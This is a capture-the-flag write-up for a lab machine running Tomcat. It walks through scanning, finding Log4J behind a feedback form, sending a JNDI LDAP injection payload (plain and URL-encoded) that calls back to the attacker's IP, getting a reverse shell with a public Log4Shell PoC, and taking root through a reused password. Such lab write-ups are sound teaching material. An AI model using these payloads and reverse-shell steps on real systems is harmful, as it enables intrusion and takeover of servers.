## Port Scanning

An initial Rustscan scan reveals:

```bash
rustscan -a feedback.vl --ulimit 5000 --
```



Two ports are reported as open - SSH and port 8080 (likely a web server). A more detailed Nmap scan shows the following information:

```bash
nmap -Pn -p22,8080 -A -T4 feedback.vl
```



SSH is running OpenSSH 7.6p1 - not likely the initial foothold but good to remember. The other open port appears to be an Apache Tomcat server running version 9.0.56.

## Web Enumeration

Navigating to the web page returns an Apache Tomcat default installation page:


Attempting to enter default creds to access the Manager App results in a 401 Unauthorized before reaching the login panel:


Attempting to bypass this via Header Injection such as using `X-Forwarded-For` and the value of `localhost` or `127.0.0.1` proves unsuccessful. 

Performing a directory busting scan via `dirsearch` results in some potentially interesting directories being found:

```bash
dirsearch -u http://feedback.vl:8080/ -x 403,400,500,401,404
```


A couple of ones stand out:

- docs - could contain interesting documentation
- examples - could be default stuff in here
- feedback - a page to submit feedback potentially

Navigating to `/docs` reveals some standard Apache Tomcat documentation - nothing interesting. However, it does disclose the specific version and its release date:


The `/examples` directory, again, contains what appears to be standard Apache Tomcat examples for servlets, JSP and websockets:


Finally, the `/feedback` page includes a lot more interesting content:


It includes an input field for a name and specific feedback. Entering some information and hitting `Send` redirects to a page stating the request has been logged:


Take note of the URL being sent - it appears to contain a JSESSIONID cookie which could be interesting. Checking the Network tab after sending feedback does not show any interesting files:


Analysing the "Sources" tab for any interesting files as well results in an interesting comment on the `/feedback` page:


It appears to be running Log4J.

## Log4J Simple PoC

To test if it is indeed vulnerable, a simple PoC can be sent via the feedback form which is as follows:

```java
${jndi:ldap://10.8.4.237:4444/a}
```

When Log4J processes this string, it identifies the expression and initiates a JNDI lookup to the provided LDAP server. The LDAP server then responds with a specially crafted payload in the normal attack, but this will just be a PoC to see if it can communicate with our machine.

To test, run a Netcat listener (`nc -nvlp 4444`) and send the payload through both the feedback and name options:


Unfortunately, no connection is made on the Netcat listener. One possible cause is the special characters being escaped since it is being sent by a browser. Trying to use a fully URL encoded payload such as:

```bash
%24%7B%6A%6E%64%69%3A%6C%64%61%70%3A%2F%2F%31%30%2E%38%2E%34%2E%32%33%37%3A%34%34%34%34%2F%61%7D
```


After sending it through a proxy like Caido, the Netcat listener catches a connection:



## Log4J Exploitation

With confirmation that it can now connect back to the attacker machine successfully, it can potentially be exploited. Further research revealed a [GitHub repository](https://github.com/kozmer/log4j-shell-poc) that contains a reverse shell PoC.

After cloning the repository, the requirements must be installed in a Python virtual environment. To start a virtual environment:

```bash
python -m venv venv
source venv/bin/activate.fish # for fish shell only
```


Afterwards, install the requirements via `pip`:

```bash
pip install -r requirements.txt
```


Before running the exploit, there must be an extracted Java archive present in the same directory named `jdk1.8.0_20`.  Download the `8u21` version from [Oracle](https://javadl.oracle.com/webapps/download/GetFile/1.8.0_261-b12/a4634525489241b9a9e1aa73d9e118e6/linux-i586/jdk-8u261-linux-x64.tar.gz) (direct download link) titled `jdk-8u261-linux-x64.tar.gz` and extract it.

Once done, modify the `poc.py` file and edit every line that says `jdk1.8.0_20` to `jdk1.8.0_261`:


Afterwards, run the script and check what options it requires:


It requires the user IP (attacker IP), web port (attacker listening port) and lport (netcat port):

```bash
python3 poc.py --userip 10.8.4.237 --webport 8000 --lport 443
```



Then, a Netcat listener must be set up to catch the reverse shell:

```bash
nc -nvlp 443
```

Finally, send the full URL encoded payload specified in the same input field as before (name) and check the Netcat connection:




## Post Exploitation

Checking out the `/home` directory, there is only an `ubuntu` user but no flag is present:



As precaution, LinPEAS can be transferred over and ran while manual enumeration takes place. 

While LinPEAS runs, enumeration can be done manually. When the shell popped, it provided a shell under the `/opt/tomcat` directory. Checking the `conf` directory for any interesting configuration files results in the following:



There are some interesting files, including a potential users XML file. Checking back on LinPEAS, it also found this file:



Checking the contents reveals a potential username and password:



It reveals two users with the same password which could indicate password reuse:

- admin
- robot

Attempting to login as the ubuntu user with the password results in a failure:


The robot user does not exist as can be seen in the `/etc/passwd` file:


Since the password was reused and is used by an `admin` user, it may be reused as root's password. Checking this appears to be the case:




